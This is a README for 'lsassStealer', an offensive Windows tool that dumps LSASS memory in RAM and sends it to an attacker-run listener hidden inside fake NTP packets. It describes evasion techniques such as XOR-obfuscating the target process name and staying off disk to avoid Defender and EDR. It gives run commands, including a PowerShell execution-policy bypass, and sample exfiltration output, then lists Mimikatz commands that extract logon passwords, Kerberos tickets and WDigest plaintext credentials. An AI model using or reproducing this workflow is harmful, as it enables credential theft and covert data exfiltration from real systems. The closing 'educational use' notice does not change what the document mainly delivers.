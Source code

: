 
<h1 align="center"> Project lsassStealer </h1>

## **🔍 Overview**
`lsassStealer` is an tool designed to **dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**. Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.


The project consists of:
- A **dumper** (`memdump.c`) to **extract LSASS memory in RAM**.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP port 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode |    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                          Root Delay                           |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                       Root Dispersion                         |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Reference Identifier                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Reference Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                   Originate Timestamp (64 bits)               |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Receive Timestamp (64 bits)                |
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                                                               |
|                    Transmit Timestamp (64 bits)               |    <------- Hijacked
|                                                               |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we hijack this field and we **embed data** into it.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the guise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have VSCode or another configured environment
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```
### WARNING : The exe has to be launched with SYSTEM privileges otherwise there's big chance it will fail.
---

## **🔍 Analyzing the Dump with Mimikatz**

Once you have obtained the memory dump file (`dump_memory.bin`), you can analyze it using **Mimikatz** to extract credentials and other sensitive information. Here are the steps and commands to do so:

1. **Download Mimikatz**: Ensure you have the latest version of Mimikatz from the official GitHub repository.

2. **Run Mimikatz**: Open a command prompt with administrative privileges and navigate to the directory containing Mimikatz.

3. **Load the Memory Dump**: Use the following commands to load and analyze the memory dump:

   ```shell
   mimikatz # sekurlsa::minidump dump_memory.bin
   mimikatz # sekurlsa::logonpasswords
   ```

   - The first command loads the memory dump file.
   - The second command extracts and displays logon passwords from the dump.

4. **Extract Additional Information**: You can use other Mimikatz commands to extract more information, such as:

   ```shell
   mimikatz # sekurlsa::tickets
   mimikatz # sekurlsa::wdigest
   ```

   - `sekurlsa::tickets`: Extracts Kerberos tickets.
   - `sekurlsa::wdigest`: Extracts plaintext credentials stored by WDigest.

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**
Use this tool **only on systems you own or have explicit permission to test**.

---
